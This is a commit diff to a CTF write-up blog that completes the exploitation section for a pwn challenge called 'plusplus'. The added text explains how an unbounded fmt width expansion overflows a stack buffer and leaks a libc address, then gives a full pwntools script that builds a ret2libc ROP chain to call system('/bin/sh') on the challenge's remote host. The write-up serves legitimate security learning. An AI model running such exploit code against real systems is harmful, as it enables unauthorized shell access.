

Before and after one commit to kernelcide/blog, an MkDocs documentation site: the page built from docs/PCC Finals 2024/ShowDown/Round 2 - plusplus.md, in a window 1280 px wide and 1400 px high, scrolled down 1675 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 2365 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
ShowDown done - stdnoerr

````diff
--- a/docs/PCC Finals 2024/ShowDown/Round 2 - plusplus.md
+++ b/docs/PCC Finals 2024/ShowDown/Round 2 - plusplus.md
@@ -65,9 +65,83 @@ Looking at the protections enabled (can be inferred from the compiler arguments
 This confirmed that buffer overflow was imminent.
 
 ### Exploitation
-After finding the format string and buffer overflow vulnerabilities, I was looking for a leak to do a `ret2libc` attack. I thought we could leak the stack contents like we do in C `printf` format string attacks. I pulled up the C++ does for the `fmt::format_to` function and was reading the format string syntax. It uses a syntax similar to Python's str.format function.
+After finding the format string and buffer overflow vulnerabilities, I was looking for a leak to do a `ret2libc` attack. I thought we could leak the stack contents like we do in C `printf` format string attacks. I pulled up the C++ does for the `fmt::format_to` function and was reading the format string syntax. It uses a syntax similar to Python's `str.format` function.
 I tried giving indices to read arguments beyond the provided one (still under the impression that it was similar to `printf` format string).
 
 After attempting multiple indices and types (you can specify the type being printed in the format), the program wasn't letting me print any argument other than the first argument and that only in integer format. The issue was that C++ does runtime checks for verifying argument's indices and types with the ones that we provided during compilation, unlike `printf` that has no runtime checks because it has no runtime type information.
 
 At this point the first hint was released, that read "_The format documentation is quite extensive. You just need to look into expansions_". Expansions are same as those of `printf`. We specify a width of the argument being printed and the value is padding with space (default) or the specified character from the left (default) or the right to make the string have the specified width.
+Example expansions:
+`printf`: `%<offset>$<width><specifier>`, `%2$20d`, `%20d`, `%-20s`
+`fmt`: `{<offset>:<width><specifier>}`, `{2:20d}`, `{:20d}`, `{:-20s}`
+
+With this in mind, I experimented with a few different widths and found out that there were no bound checks on the `output` buffer, so we can overflow `output` and `fmt` wasn't performing any string termination either. Looking at the stack in `gdb`, you get the following layout:
+```
+[output buffer]
+[buf_2 buffer]
+[buf buffer]
+[saved rbp]
+[return address]
+```
+This reminded me that there is a libc leak present in `buf_2`, I overflowed `output` with `{:256}` and got the following output:
+```
++ {:256}
+                                                                                                                                                                                                                                                              800x78ea92c88540
+++
+```
+The address at the end is `setvbuf`. Now we have libc base and just need to perform buffer overflow in `buf` buffer, thanks to buffer overflow in `safe_str_input` function.
+I did a simple `ret2libc` attack to execute `system` function
+
+### Final Exploit
+```py
+#!/usr/bin/env python3
+from pwn import *
+
+def start() -> tube:
+    if args.REMOTE:
+        return remote("challs.airoverflow.com", 32297)
+    else:
+        return elf.process()
+
+def attach_gdb() -> None:
+    if args.REMOTE or args.NOGDB:
+        return
+
+    gdb.attach(p, '''
+    b *main +730
+    continue
+               ''')
+    input("ATTACHED?")
+
+context.binary = elf = ELF("./plusplus_patched")
+libc = elf.libc
+
+POP_RDI = 0x000000000010f75b
+RET = POP_RDI + 1
+BIN_SH = 0x1cb42f
+
+p = start()
+
+p.sendlineafter("+ ", "{:256}")
+libc_leak = int(p.recvline().strip()[2:], 0x10)
+
+libc.address = libc_leak - libc.sym.setvbuf
+
+print(hex(libc.address))
+
+rop = [
+    libc.address + POP_RDI, libc.address + BIN_SH,
+    libc.address + RET,
+    libc.sym.system
+]
+
+attach_gdb()
+
+p.sendlineafter("++ ", b'A'*440 + b''.join([p64(x) for x in rop]))
+
+p.interactive()
+p.close()
+```
+
+### Comments
+I really liked the idea of the challenge to show that format string are not limited to C's `printf` and can be helpful even with strict type-checking.
````
Also changed, not shown: docs/PCC Finals 2024/ShowDown/Semi Finals - Jack Sparrow.md (+265 -0 lines).
